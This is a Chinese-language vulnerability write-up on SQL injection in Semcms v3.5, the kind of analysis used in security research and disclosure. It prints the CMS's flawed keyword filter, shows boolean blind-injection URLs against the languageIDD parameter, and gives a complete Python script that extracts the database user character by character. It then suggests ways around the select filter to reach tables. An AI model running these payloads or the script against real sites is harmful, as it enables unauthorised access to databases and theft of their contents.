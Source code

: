# Semcms v3.5 sql注入漏洞

### 一、漏洞简介

### 二、漏洞影响

Semcms v3.5

### 三、复现过程

**漏洞分析**

在分析过程中看到网上已经有人发现semcms V2.4存在过滤不严导致sql注入的漏洞，不知道咋还没改，而且最新版过滤的关键字更少了。

首先查看首页文件index.php的代码


```php
1 <?php
2 include_once  'Include/web_inc.php';
3 include_once  'Templete/default/Include/Function.php';
4 $file_url="";
5 include_once  'Templete/default/Include/default.php';
6 ?>
```


```php
1 //网站logo
 2 
 3 $weblogo=$web_url_meate.str_replace('../','',$row['web_logo']);
 4 
 5 // 控制文字标签 更改 获取的 语种 id
 6 
 7 if (isset($_GET["languageIDD"])){$Language=test_input(verify_str($_GET["languageIDD"]));}else{$Language=verify_str($Language);}
 8 
 9 if(!empty($Language)){
10 
11       //网站SEO设定
12 
13       $query=$db_conn->query("select * from sc_tagandseo where languageID=$Language");
14       $row=mysqli_fetch_array($query);
15       $tag_indexmetatit=datato($row['tag_indexmetatit']);// 首页标题
```


```php
 1 // 防sql入注
 2 
 3 if (isset($_GET)){$GetArray=$_GET;}else{$GetArray='';} 　　　　//所有GET方式提交的变量都进行防注入检查
 4  
 5 foreach ($GetArray as $value){ //get
 6     
 7     verify_str($value);
 8   
 9 }
10 
11 function inject_check_sql($sql_str) {
12   
13      return preg_match('/select|insert|=|%|<|between|update|\'|\*|union|into|load_file|outfile/i',$sql_str);　　　　//过滤关键字
14 } 
15 
16 function verify_str($str) { 
17  
18    if(inject_check_sql($str)) {
19    
20        exit('Sorry,You do this is wrong! (.-.)');　　　　　　//如果出现关键字则提示
21     } 
22  
23     return $str; 
24 } 
```


```php
 1 function test_input($data) { 　　　　　　　　　　　　　　　　　　//防止XSS
 2       $data = str_replace("<script", "", $data);
 3       $data = str_replace("</script>", "", $data);
 4       $data = str_replace("%", "percent", $data);
 5       $data = trim($data);
 6       $data = stripslashes($data);
 7       $data = htmlspecialchars($data,ENT_QUOTES);　　　　//实体编码
 8       return $data;
 9 
10    }
```

可以看到第16行的函数verify_str()调用inject_check_sql()用来过滤危险字符，函数test_input用来过滤xss。其中可以明显地看到第11行的函数inject_check_sql()采用白名单的方式是有缺陷的，我们可以用布尔盲注来绕过

### 漏洞复现


```bash
http://url/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x72) rlike 0　　　　显示正常
```

![](images/15893398149532.png)



```bash
http://url/SEMCMS_PHP_3.5/index.php?languageIDD=1 and strcmp(left(user(),1), 0x73) rlike 0　　　　显示错误
```

![](images/15893398270194.png)


参考网上已有的fuzz盲注脚本改了下，代码如下


```python
#用python3版本
import requests
url = "http://172.19.77.44/SEMCMS_PHP_3.5/index.php?languageIDD=1"
print("Testing url: " + url)
#十进制数33-126间的ascii hex值
payload = ["0x21","0x22","0x23","0x24","0x25","0x26","0x27","0x28","0x29","0x2a",
            "0x2b","0x2c","0x2d","0x2e","0x2f","0x30","0x31","0x32","0x33","0x34",
            "0x35","0x36","0x37","0x38","0x39","0x3a","0x3b","0x3c","0x3d","0x3e",
            "0x3f","0x40","0x41","0x42","0x43","0x44","0x45","0x46","0x47","0x48",
            "0x49","0x4a","0x4b","0x4c","0x4d","0x4e","0x4f","0x50","0x51","0x52",
            "0x53","0x54","0x55","0x56","0x57","0x58","0x59","0x5a","0x5b","0x5c",
            "0x5d","0x5e","0x5f","0x60","0x61","0x62","0x63","0x64","0x65","0x66",
            "0x67","0x68","0x69","0x6a","0x6b","0x6c","0x6d","0x6e","0x6f","0x70",
            "0x71","0x72","0x73","0x74","0x75","0x76","0x77","0x78","0x79","0x7a",
            "0x7b","0x7c","0x7d"
           ]
user = ""
for b in range(len(payload)):
    for a in payload:
        #sql_payload_user = " and strcmp(substr(database(),%s,1), 0x%s) rlike 0" % (b+1, a.replace("0x",""))    #当前数据库名称
        sql_payload_user = " and strcmp(substr(user(),%s,1), 0x%s) rlike 0" % (b+1, a.replace("0x",""))            #当前数据库用户名
        res = requests.get(url + sql_payload_user).text
        res1 = requests.get(url).text
        if len(res) == len(res1):        #如果返回的内容长度大小一样，则表示匹配成功
            user = user + a
            print(" ")
            print("[*]info : 0x" + user.replace("0x","").upper())
            break
        else:
            print('\r',"Match failed,Next.....",end='')
```

测试结果如下图

![](images/15893398463428.png)


解码ascii hex值0x726F6F74406C6F63616C686F7374为root@localhost。当然因为过滤了select，获取表名就有点困难了，t00ls中看到有人介绍用selselectect来绕过的方式跟这个CMS的过滤方式是不一样的，所以行不通。暂时想到的办法是可以找一与验证密码有关的注点，因为这个注点包含表名，所以可以通过fuzz猜测其字段名，最后通过字段名取得字段值，可以看下这篇文章blind-sql-injection-burpsuite-like-a-boss(要翻墙)

参考链接

https://www.cnblogs.com/st404/p/10087191.html